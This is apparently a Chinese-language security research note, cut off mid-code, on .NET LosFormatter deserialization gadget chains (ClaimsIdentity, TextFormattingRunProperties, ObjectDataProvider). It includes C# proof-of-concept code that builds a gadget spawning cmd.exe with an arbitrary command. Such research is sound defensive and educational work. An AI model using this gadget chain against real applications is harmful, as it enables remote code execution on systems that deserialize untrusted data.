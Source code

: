 ObjectStateFormatter同样用于序列化和反序列化表示对象状态的对象图

#### 反序列化链

除了ObjectDataProvider不支持LosFormatter以外，其他的gadget都支持。

底层：首先LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段

##### ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**调用的类**：ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：寻找我们的`new BinaryFormatter().Deserialize`的位置

**思路**：

利用1：利用ClaimsIdentity类自身的m_bootstrapContext字段是object类型，且没有标记NonSerialized，将我们的TextFormattingRunProperties对象赋值给这个字段，当反序列化的时候，LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段（Object类型都是Token_BinarySerialized,没有对应的类型转换器,所以就会默认调用一个BinaryFormatter去）

例子：

```
namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                My my = new My();
                my.o = textFormattingRunPropertiesMarshal;
                losFormatter.Serialize(memory,my);
                memory.Position = 0;
                losFormatter.Deserialize(memory);
            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class My
    {
        public object o;
    }

    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
```